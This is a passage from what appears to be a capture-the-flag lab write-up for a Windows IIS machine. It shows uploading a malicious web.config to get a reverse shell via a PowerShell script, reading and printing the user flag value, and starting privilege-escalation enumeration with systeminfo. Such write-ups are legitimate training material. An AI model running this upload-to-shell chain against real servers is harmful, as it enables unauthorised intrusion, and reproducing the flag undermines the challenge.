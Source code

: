 we will copy the PowerShellTcpEx.ps1 to current folder.

```bash
vim web.config
# copy and paste the web.config bypass contents
```

And we will upload this web.config, and access this web.config to execute it.

![[Bounty-10.png]]

```bash
curl "http://10.10.10.93/UploadedFiles/web.config"
```

![[Bounty-11.png]]

Excellent! we will get the reverse shell by execute the web.config commands.

## type user flag

```bash
whoami
hostname
type C:\users\merlin\desktop\user.txt
# flag
c5393ff79ffc15d3536f91cce9198b5d
```

![[Bounty-12.png]]

# Privilege Escalation

## Enumeration

```powershell
# rhost
systeminfo
```

```bash
vim systeminfo.txt
```
```txt

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          7/30/2022, 12:46:33 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
```
